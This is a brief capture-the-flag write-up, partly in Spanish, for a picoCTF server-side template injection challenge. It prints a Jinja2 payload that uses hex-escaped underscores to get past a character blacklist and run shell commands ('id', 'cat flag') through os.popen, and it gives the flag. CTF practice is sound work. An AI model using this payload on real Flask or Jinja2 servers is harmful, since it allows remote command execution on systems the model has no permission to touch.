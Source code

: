 #### Description

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:51839/)!


#### Hints
1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?


#### Solucion
1. Entramos al link del sitio web.
2. Al parecer es un sitio donde  puedes anunciar lo que uno quiera.
3. Entramos aun sitio (https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/) para copiar una linea que nos puede ayudar a encontrar la bandera
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
4. A la linea anterior le vamos a poner "cat flag" en la parte de popen('id')
```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

Damos clic en OK y nos da la bandera...
```
picoCTF{sst1_f1lt3r_byp4ss_eb2a60e7}
```	

